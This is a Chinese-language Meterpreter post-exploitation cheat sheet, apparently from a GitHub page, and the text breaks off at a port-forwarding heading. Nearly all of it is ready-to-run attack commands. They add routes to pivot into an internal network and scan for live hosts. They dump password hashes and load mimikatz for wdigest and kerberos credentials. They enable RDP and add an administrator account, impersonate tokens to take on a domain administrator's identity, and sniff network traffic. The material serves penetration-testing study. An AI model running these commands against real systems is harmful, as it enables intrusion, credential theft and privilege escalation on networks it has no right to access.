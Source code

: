 其中路由信息对于渗透者来说特有用,因为攻击机处于外网,目标主机处于内网,他们之间是不能通信的,故需要添加路由来把攻击机的 IP 添加到内网里面,这样我们就可以横扫内网,就是所谓的内网代理.

首先我们需要获取网段,然后再添加路由,添加成功后就可以横向扫描内网主机.
```bash
run get_local_subnets               # 获取网段
run autoroute -s 192.168.205.1/24   # 添加路由
run autoroute -p                    # 查看路由
run autoroute -d -s 172.2.175.0     # 删除网段
run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24   # 探测该网段下的存活主机.
meterpreter > background            # 后台 sessions
```

**获取凭证**
```bash
run hashdump

load mimikatz       # 加载 mimikatz 模块
wdigest
kerberos
```

**操作远程桌面**
```bash
run post/windows/manage/enable_rdp  # 开启远程桌面
run post/windows/manage/enable_rdp username=test password=test  # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**令牌假冒**

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie.

msf 提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色.
```bash
getuid                          # 查看当前用户
use incognito                   # 进入该模块
list_tokens -u                  # 查看存在的令牌
impersonate_token <Username>    # 令牌假冒
# 注意用户名的斜杠需要写两个.

getuid                          # 查看是否切换成功
```

**sniffer**
```bash
use sniffer
sniffer_interfaces          # 查看网卡信息
sniffer_start 1             # 开始在序号为1的网卡上抓包
sniffer_dump 1 xpsp1.cap    # 下载抓取到的数据包
```

对抓取的包进行解包
```bash
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
```

**端口转发和内网代理**
- **portfwd**

